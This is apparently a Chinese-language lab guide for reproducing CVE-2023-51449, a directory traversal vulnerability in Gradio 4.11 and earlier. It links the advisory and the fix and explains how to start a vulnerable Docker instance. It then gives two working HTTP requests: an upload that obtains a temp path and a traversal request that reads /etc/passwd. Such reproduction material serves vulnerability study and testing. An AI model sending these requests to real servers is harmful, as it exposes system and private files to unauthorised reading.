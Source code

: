# Gradio `file` 接口目录穿越漏洞（CVE-2023-51449）

Gradio是一个Python库，允许用户无需编写前端代码即可为机器学习模型快速构建可视化Web界面。

在 Gradio 4.11 及更早版本中，如果未启用身份验证，知道文件路径的攻击者可以使用公共URL访问运行Gradio应用程序的服务器上的任意文件。

参考链接：

- <https://github.com/gradio-app/gradio/pull/6833>
- <https://github.com/gradio-app/gradio/security/advisories/GHSA-6qm2-wpxq-7qh2>

## 环境启动

执行如下命令启动一个由Gradio 4.10.0编写的应用：

```
docker compose up -d
```

环境启动后，默认未开启身份验证。你可以通过`http://your-ip:7860`访问该应用。

## 漏洞复现

首先，使用upload接口上传任意文件，获取一个可访问的文件路径。

```
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--
```

![](1.png)

获得可访问的文件路径后，利用file接口配合目录穿越，即可读取服务器上的任意文件，例如`/etc/passwd`：

```
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36 Edg/100.0.1185.36
Connection: close
Accept-Encoding: gzip

```

![](2.png)